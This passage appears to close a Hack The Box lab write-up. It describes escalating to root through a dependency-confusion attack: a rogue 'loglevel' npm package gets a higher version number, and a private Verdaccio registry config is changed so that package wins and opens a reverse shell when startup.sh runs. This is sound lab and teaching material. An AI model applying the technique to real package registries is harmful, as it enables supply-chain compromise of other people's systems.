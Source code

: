 Modify `package.json` so that the version is higher:

```json
{
  "name": "loglevel",
  "description": "Minimal lightweight logging for JavaScript, adding reliable log level methods to any available console.log methods",
  "version": "13.37.1",
  "...": "..."
}
```

And finally disable proxying on our private Verdaccio instance, to make sure our version of Loglevel is installed. In `conf/docker.yaml`:

```yaml
packages:
  'loglevel':
    access: $all
    publish: $all
  '@*/*':
    access: $all
    publish: $authenticated
    unpublish: $authenticated
    proxy: npmjs
  '**':
    access: $all
    publish: $authenticated
    unpublish: $authenticated
    proxy: npmjs
```

Running `startup.sh` now triggers a reverse shell as root :)

[author-profile]: https://app.hackthebox.com/users/389926
[erms-repo]: https://www.sourcecodester.com/php/15160/simple-exam-reviewer-management-system-phpoop-free-source-code.html
[frontpage]: images/frontpage.png
[erms-sqli]: https://www.exploit-db.com/exploits/50725
[oretnom23]: https://www.google.com/search?q=oretnom23+exam+php
[sfms-admin-login]: images/sfms-admin-login.png
[sfms-sqli]: https://www.exploit-db.com/exploits/48437
[snyk-dca]: https://snyk.io/blog/detect-prevent-dependency-confusion-attacks-npm-supply-chain-security/
[student-portal]: images/student-portal.png
